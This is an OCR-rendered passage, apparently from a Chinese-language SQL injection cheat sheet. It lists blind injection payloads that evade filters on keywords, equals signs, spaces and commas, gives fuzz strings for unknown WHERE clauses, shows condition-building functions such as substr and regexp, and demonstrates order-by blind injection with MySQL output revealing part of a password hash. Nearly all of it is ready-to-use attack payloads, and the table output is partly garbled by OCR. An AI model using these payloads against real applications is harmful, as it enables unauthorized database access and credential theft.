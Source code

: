     //不使用or、and、注释
    '^!(bool)='1
    '=(bool)='
    '||(bool)='1
    true'%26%26(bool)='1
    '=if((bool),1,0)='0
        
    //不使用等号、空格、注释
    'or(bool)<>'0
    'or((bool)in(1))or'0
        
    //其他
    or (case when (bool) then 1 else 0 end)
    ```

  - 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  - ```sql
    1' or (bool) or '1'='1
    1%' and (bool) or 1=1 and '1'='1
    ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

  - ```sql
    left(user(),1)>'r'  
    right(user(),1)>'r'  
    substr(user(),1,1)='r'  
    mid(user(),1,1)='r' 
        
    //不使用逗号 
    user() regexp '^[a-z]'
    user() like 'root%'
    POSITION('root' in user())
    mid(user() from 1 for 1)='r'
    mid(user() from 1)='r'
    ```

- ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+----------+---------------------------
  | id | username | password                   
  +----+----------+---------------------------
  |  1 | 2        | 5                         
  |  1 | admin    | 51b7a76d51e70b419f60d34 |
  +----+----------+---------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+--------+---------------------------
  |id   |username| password                  
  +----+--------+---------------------------
  |  1  | admin- |51b7a76d51e70b419f60d3
  |  1  |    2   | 6                            +------+----------+-------------------------
  2 rows in set (0.01 sec)
  ```
